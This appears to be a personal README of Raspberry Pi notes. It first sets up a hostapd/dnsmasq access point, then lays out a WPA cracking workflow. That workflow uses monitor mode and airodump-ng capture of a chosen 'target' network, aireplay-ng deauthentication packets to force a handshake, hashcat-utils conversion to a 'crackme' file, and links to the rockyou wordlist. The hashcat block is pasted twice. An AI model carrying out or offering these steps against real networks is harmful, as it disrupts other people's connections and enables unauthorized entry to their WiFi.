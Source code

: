# WiPi


- nm-connection-editor #set shared on ipv4 tab for the wired conn
- ifconfig #check your own ip to get an idea of the network
- sudo nmap -e eno1 -sn 10.42.0.0/24
ssh into the discovered ip
- ssh pi@[IPaddress] #enter password. Nothing shows when you type in a pass on RPi

- sudo su #become the ROOT
- sudo apt update #update the list of packages
maybe upgrade.. restart after upgrade
- sudo apt install vim hostapd dnsmasq
stop the two services

set static ip and disable dhcp on wlan0
- edit /etc/dhcpcd.conf #add to eof
interface wlan0
static ip_address=192.168.3.254/24
denyinterfaces wlan0

rename original file for backup
- sudo mv /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
create new dnsmasq.conf
- sudo vim /etc/dnsmasq.conf
interface=wlan0
dhcp-range=192.168.3.1,192.168.3.20,255.255.255.0,24h

create configuration for the access point
- vim /etc/hostapd/hostapd.conf #enter the following:
interface=wlan0
driver=nl80211
channel=7 #sets channel within the 2.4Ghz range
wmm_enabled=0 #wireless multimedia auto prioritizes media transmissions
macaddr_acl=0
auth_algs=1 #authentication algorithms. either one or on.. I'm not sure
ignore_broadcast_ssid=0
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
ssid=<Network_Name>
wpa_passphrase=<password> #choose a dumb one!

specify the location of the config file we just created
- sudo vim /etc/default/hostapd  #edit the following line
#DAEMON_CONF=""
to
DAEMON_CONF="/etc/hostapd/hostapd.conf"

apt install aircrack-ng p7zip

airmon-ng start wlan1
airmon-ng check kill
airmon-ng start wlan1
airodump-ng wlan1mon #shows nearby networks
ctrl-z
#pick target, new term. basic service set id
mkdir capture
airodump-ng -c [channel# of target] --bssid [bssid] -w /home/pi/capture wlan1mon
#new term, -0 is deauth packets, sending 2, a for AP
aireplay-ng -0 2 -a [get BSSID] wlan1mon
#second terminal has bssid for AP. check for wpa handshake
#convert and then export for cracking

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
#create the hccap file for hashcat
./cap2hccapx.bin /home/pi/capture/-01.cap /home/pi/capture/crackme.hccap

#wordlists
https://da.gd/rockyou
https://da.gd/Top1000

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
#create the hccap file for hashcat
./cap2hccapx.bin /home/pi/capture/-01.cap /home/pi/capture/crackme.hccap





#stop here, unmask and start services. hostapd dnsmasq

